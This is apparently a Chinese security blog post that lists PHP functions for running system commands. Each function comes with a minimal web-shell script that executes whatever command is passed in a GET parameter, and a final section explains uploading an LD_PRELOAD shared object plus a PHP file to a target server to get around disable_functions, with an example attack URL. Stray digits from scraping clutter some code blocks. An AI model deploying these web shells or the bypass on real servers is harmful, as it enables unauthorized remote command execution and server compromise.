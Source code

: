 **目录**

[PHP中执行系统命令](#t0 "PHP中执行系统命令")

[exec()](#t1 "exec()")

[shell\_exec()](#t2 "shell_exec()")

[system()](#t3 "system() ") 

[\`$command\`](#t4 "`$command`  ")

[passthru()](#t5 "passthru()")

[popen()](#t6 "popen()")

[proc\_open()](#t7 "proc_open()")

[COM组件](#t8 "COM组件")

* * *

PHP中执行系统命令
----------

在PHP中，执行系统命令，有以下方式或方法：

1.  exec()
2.  shell\_exec() 
3.  \`whoami\`
4.  system()
5.  passthru()
6.  popen()
7.  proc\_open()
8.  pcntl\_exec() ：需要开启pcntl扩展
9.  COM组件：Wscript.Shell和Shell.Application
10.  dl()：通过加载自定义php扩展突破 disable\_fucnitons指令的限制
11.  利用PHP内核变量绕过disable\_functions，传送门：[利用PHP内核变量绕过disable\_functions（附完整代码）](https://www.freebuf.com/articles/web/82801.html "利用PHP内核变量绕过disable_functions（附完整代码）")

### exec()

该函数默认返回值是执行结果的第一行，并不会有全部的执行结果。如果要打印执行结果，需遍历打印output数组。

```
string exec ( string command, array &output, int &return_var)      
    command参数是要执行的命令      
    output数组是保存输出结果      
    return_var整形用来保存命令执行后的状态码，0代表执行成功，1代表执行失败
```

```
<?php      
	$command=$_GET['command'];      
	$ret=exec($command,$output,$a);      
	echo $ret;					#默认只返回第一行结果      
	echo "<br>";      
	echo "****************************************************";      
	echo "<br>";      
	echo "Status: ",$a;			#打印出执行状态码      
	echo "<br>";      1
	echo "****************************************************";      1
	$length=count($output);		#数组的长度      1
	for($i=0;$i<$length;$i++){      1
		echo $output[$i];      1
		echo "<br>";      1
	}      1
?>
```


 ![](https://img-blog.csdnimg.cn/20200306221342377.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### shell\_exec()

```
<?php      
	$command=$_GET['command'];      
	$ret=shell_exec($command);      
	echo $ret;      
?>
```


![](https://img-blog.csdnimg.cn/20200306221802702.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### system() 

```
system(string  command , int & return_var)      
    command参数是要执行的命令，      
    return_var参数存放返回的值，可不写该参数
```

```
<?php      
	$command=$_GET['command'];      
	$ret=system($command);      
	echo $ret;      
?>
```


![](https://img-blog.csdnimg.cn/20200306221907621.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### \`$command\`

```
<?php      
	$command=$_GET['command'];      
	$ret=`$command`;      
	echo $ret;      
?>
```


 ![](https://img-blog.csdnimg.cn/20200306222336878.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### passthru()

```
<?php      
	$command=$_GET['command'];      
	passthru($command);      
?>
```


![](https://img-blog.csdnimg.cn/20200306222112649.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### popen()

```
popen ( string command, string mode )      
    打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。 返回一个和 fopen() 所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用 pclose() 来关闭。此指针可以用于 fgets()，fgetss() 和 fwrite()。
```

```
<?php      
	$command=$_GET['command'];      
	$fd = popen($command, 'r');       
	while($s=fgets($fd)){      
		print_r($s);      
	}      
?>
```


![](https://img-blog.csdnimg.cn/20200306223115648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### proc\_open()

```
resource proc_open ( string cmd, array descriptorspec, array &pipes [, string cwd [, array env [, array other_options]]] )
```

```
<?php      
	$command=$_GET['command'];      
    $descriptorspec=array(       
        0=>array('pipe','r'),       
        1=>array('pipe','w'),      
        2=>array('pipe','w')       
    );      
    $handle=proc_open($command,$descriptorspec,$pipes,NULL);      
    if(!is_resource($handle)){      1
    	die('proc_open failed');      1
    }      1
    while($s=fgets($pipes[1])){      1
    	print_r($s);      1
    }      1
    while($s=fgets($pipes[2])){      1
    	print_r($s);      1
    }      1
    fclose($pipes[0]);      1
    fclose($pipes[1]);      2
    fclose($pipes[2]);      2
    proc_close($handle);      2
?>
```


 ![](https://img-blog.csdnimg.cn/20200306223950711.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### COM组件

php>5.4版本需手动添加该扩展

在php.ini文件中，加入如下这行

![](https://img-blog.csdnimg.cn/20200408210329365.png)

然后查看phpinfo，该扩展是否enable。

![](https://img-blog.csdnimg.cn/2020040821041777.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

enable之后，就可以使用如下脚本了。

```
<?php      
$command=$_GET['cmd'];      
$wsh = new COM('WScript.shell');      
$exec = $wsh->exec("cmd /c ".$command);      
$stdout = $exec->StdOut();      
$stroutput = $stdout->ReadAll();      
echo $stroutput;      
?>
```


![](https://img-blog.csdnimg.cn/20200322221358921.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果目标是Linux系统的话，可以参考：[GitHub - yangyangwithgnu/bypass\_disablefunc\_via\_LD\_PRELOAD: bypass disable\_functions via LD\_PRELOA (no need /usr/sbin/sendmail)](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD "GitHub - yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD: bypass disable_functions via LD_PRELOA  (no need /usr/sbin/sendmail)")

项目中现成的so文件可以如下编译

```
# x64      
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so      
# x86      
gcc -shared  -m32 -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so
```


将php和so都上传到目标服务器后，访问如下即可执行命令

```
http://x.x.x.x/bypass_disablefunc.php?cmd=id&outpath=/var/www/html/xxx&sopath=/var/www/html/bypass_disablefunc_x64.so
```


备注：建议outpath和sopath同个目录，防止outpath没权限写，或者找到上传文件的目录，肯定有权限写的。 不推荐有GET，可以改成POST提交更安全。

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[php限制命令执行绕过（mail函数执行可以试试）](https://www.cnblogs.com/R4v3n/articles/9081202.html "php限制命令执行绕过（mail函数执行可以试试）")

                  [无需sendmail：巧用LD\_PRELOAD突破disable\_functions](https://www.freebuf.com/web/192052.html "无需sendmail：巧用LD_PRELOAD突破disable_functions")